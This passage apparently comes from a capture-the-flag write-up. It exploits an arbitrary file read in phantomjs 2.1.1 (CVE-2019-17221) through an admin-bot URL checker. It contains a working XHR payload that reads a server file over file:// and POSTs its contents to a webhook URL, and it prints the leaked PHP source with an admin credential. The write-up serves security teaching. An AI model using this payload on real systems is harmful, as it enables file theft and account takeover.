 ```php
				echo("<p class='text-success'>Admin will view the URL shortly!</p>");
			} else {
				echo("<p class='text-danger'>Invalid URL!</p>");
			}
		}
	?>
</div>
...SNIP...
```
In particular, we can find that `phantomjs-2.1.1` is in use, which is vulnerable to [CVE-2019-17221 Arbitrary File Read](https://web.archive.org/web/20191220171022/https://www.darkmatter.ae/blogs/breaching-the-perimeter-phantomjs-arbitrary-file-read/). To exploit this, we just need to fire a XHR on the `file://` protocol.

We can construct a page that uses XHR to read the source of `report.php` from a common php directory `/var/www/html`, and send the contents to a site that we control. We host this page on a site and let admin bot visit.
```html
<html> 
 <head> 
 </head> 
 <body> 
 <script> 
   x = new XMLHttpRequest(); 
   x.onload = function() { 
     var xhr = new XMLHttpRequest();
     xhr.open("POST", "https://webhook.site/YOUR-UID", true);
     xhr.send(JSON.stringify({ response: this.responseText }));
   }; 
   x.open("GET", "file:///var/www/html/report.php"); 
   x.send(); 
 </script> 
 </body> 
</html>
```
After a few seconds, admin bot should post the content of `report.php` in server to us.
```php
...SNIP...
<?php
if(isset($_POST['url'])){
if (filter_var($_POST['url'], FILTER_VALIDATE_URL) && preg_match("^http(s)?^",parse_url($_POST['url'], PHP_URL_SCHEME))) {
    system("/phantomjs-2.1.1-linux-x86_64/bin/phantomjs --ignore-ssl-errors=true --local-to-remote-url-access=true --web-security=false --ssl-protocol=any /bot.js ".urlencode($_POST['url'])." ccc9851c3ce6ceb05707bb796e49e8b02d9ce15ef1cfb8318f6baadde09cb6bd");
    echo("<p class='text-success'>Admin will view the URL shortly!</p>");
} else {
    echo("<p class='text-danger'>Invalid URL!</p>");
}}
?>
...SNIP...
```
From the response, we can obtain the password for admin: `ccc9851c3ce6ceb05707bb796e49e8b02d9ce15ef1cfb8318f6baadde09cb6bd`.
After we use the credential to login as admin, we can download the flag from admin dashboard.
![image](https://hackmd.io/_uploads/ByK0RaTrkx.png)  
